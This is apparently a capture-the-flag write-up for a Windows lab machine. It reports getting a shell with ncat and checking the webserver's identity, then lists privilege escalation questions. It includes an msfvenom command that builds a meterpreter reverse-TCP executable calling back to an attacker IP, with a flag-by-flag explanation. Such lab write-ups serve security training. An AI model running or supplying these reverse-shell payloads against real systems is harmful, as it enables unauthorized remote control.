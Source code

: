 Successfully got the shell with `ncat`.

<p align="center"> <img src="https://i.imgur.com/f9iXA27.png" height="90%" width="90%" alt=""/>

We can use `whoami` command to see who the webserver is running as.

<p align="center"> <img src="https://i.imgur.com/jDXfD4f.png" height="90%" width="90%" alt=""/>

Question 3: Who is the webserver running as?

`iis apppool\blog`

#

#  Windows Privilege Escalation Question

Question 1: What is the OS version of this windows machine?

Question 2: What is the name of the abnormal service running?

Question 3: What is the name of the binary you're supposed to exploit? 

Question 4: What is the user flag (on Jeffs Desktop)?

Question 5: What is the root flag?

In this task we will learn about the basics of Windows Privilege Escalation.

First we will pivot from netcat to a meterpreter session and use this to enumerate the machine to identify potential vulnerabilities. We will then use this gathered information to exploit the system and become the Administrator.

#

# Question 1

First we will pivot from netcat to a meterpreter session and use this to enumerate the machine to identify potential vulnerabilities.

On the terminal we will use msfvenom command.

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.6.106.187 LPORT=1337 -f exe > shell.exe`

- `msfvenom`: This is a part of the Metasploit Framework used for generating payloads.

- `-p windows/meterpreter/reverse_tcp`: Specifies the payload to be generated. In this case, it's a Windows Meterpreter reverse TCP shell, which allows the attacker to control a compromised system.

- `LHOST=10.6.106.187`: Specifies the IP address of the listener (attacker's machine) to which the target system will connect back. Replace 10.6.106.187 with the actual IP address.

- `LPORT=1337`: Specifies the port number on the listener (attacker's machine) where the connection will be received. Replace 1337 with the desired port number.

- `-f exe`: Specifies the format of the output payload. In this case, it's set to generate an executable (.exe) file.

- `> shell.exe`: Redirects the output to a file named shell.exe. The generated payload will be saved in this file.
